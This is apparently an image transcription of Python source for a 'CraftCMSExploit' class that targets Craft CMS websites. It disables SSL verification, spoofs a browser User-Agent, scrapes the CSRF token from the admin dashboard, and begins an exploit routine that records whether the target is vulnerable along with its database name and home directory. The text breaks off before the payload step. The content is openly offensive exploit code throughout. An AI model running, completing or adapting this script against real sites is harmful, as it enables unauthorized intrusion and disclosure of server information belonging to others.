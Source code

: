 ```
# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class CraftCMSExploit:
    def __init__(self, url):
        """Initialize the exploit with the target URL."""
        self.url = url if url.endswith('/') else url + '/'
        self.session = requests.Session()
        self.session.verify = False
        self.session.timeout = 15
        self.session.headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36'
        }

    def normalize_url(self, url):
        """Ensure URL has a scheme."""
        if not url.startswith('http'):
            url = 'http://' + url
        return url

    def extract_csrf_token(self):
        """Get the CSRF token from the dashboard page."""
        try:
            dashboard_url = self.url + "index.php?p=admin/dashboard"
            response = self.session.get(dashboard_url, timeout=10)

            if response.status_code == 200:
                # Parse the HTML response
                soup = BeautifulSoup(response.text, 'html.parser')
                csrf_input = soup.find('input', {'name': 'CRAFT_CSRF_TOKEN'})

                if csrf_input and csrf_input.get('value'):
                    csrf_token = csrf_input.get('value')
                    return csrf_token
                else:
                    # Try regex as fallback
                    match = re.search(r'name="CRAFT_CSRF_TOKEN"\s+value="([^"]+)"', response.text)
                    if match:
                        return match.group(1)

            return None
        except Exception as e:
            print(f"Error extracting CSRF token from {self.url}: {str(e)}")
            return None

    def exploit(self):
        """Attempt to exploit the vulnerability and return results."""
        result = {
            'url': self.url,
            'vulnerable': False,
            'db_name': None,
            'home_dir': None,
            'error': None
        }

        try:
            # Extract CSRF token
            csrf_token = self.extract_csrf_token()
            if not csrf_token:
                result['error'] = "Failed to extract CSRF token"
                return result

```